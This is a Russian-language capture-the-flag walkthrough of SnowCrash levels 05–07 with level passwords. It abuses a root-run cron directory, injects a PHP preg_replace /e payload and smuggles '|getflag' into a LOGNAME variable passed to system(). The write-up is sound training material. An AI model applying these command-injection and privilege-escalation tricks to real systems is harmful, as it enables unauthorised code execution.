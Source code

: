 ## level05 (ne2searoevaevoem4ov4ar8ap)

**You have new mail in /var/mail/level05**

* Посмотрим, что лежит в `cat /var/mail/level05`
* Видим, что работает крон раз в 2 минуты:
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
* Посмотрим, что это за скриптец:
```
#!/bin/sh
for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
* Видим, что этот скрипт пробегает по вложенным файлам извлекает содержимое и исполняет не больше 5s
* Сделаем скрипт и накинем прав на выполнение `+x`
```
#!/bin/bash
/bin/getflag > /tmp/flag
```

## level06 (viuaaale9huek52boumoomioc)

* Смотрим на файл level06.php, видим что используется `preg_replace` с флагом `е`, которая пораждает уезвимость типа - PREG_REPLACE_EVAL (https://php.ru/manual/reference.pcre.pattern.modifiers.html#reference.pcre.pattern.modifiers.eval)
* Смотрим на регулярку создаем файл с таким контентом: **echo "[x {${`getflag`}}]" > /tmp/l06**
* Дергаем файл и вкачестве аргумента отправляем путь до файла


## level07 (wiok45aaoguiboiki2tuin6ub)
* В директории видим файл level07 это исполняемый файл, выпоним `ltrace ./level07`
получим:
```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffffd94, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                           = 2007
geteuid()                                                                                           = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                 = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                 = 0
getenv("LOGNAME")                                                                                   = "level07"
asprintf(0xbffffce4, 0x8048688, 0xbfffff7c, 0xb7e5ee55,0xb7fed280)                                 = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                              = 0
+++ exited (status 0) +++
```
* Видим что `/bin/echo` печатает значение переменной среды
* Заменим значение переменной среды на `LOGNAME="|getflag"`
* Дернем ./level07
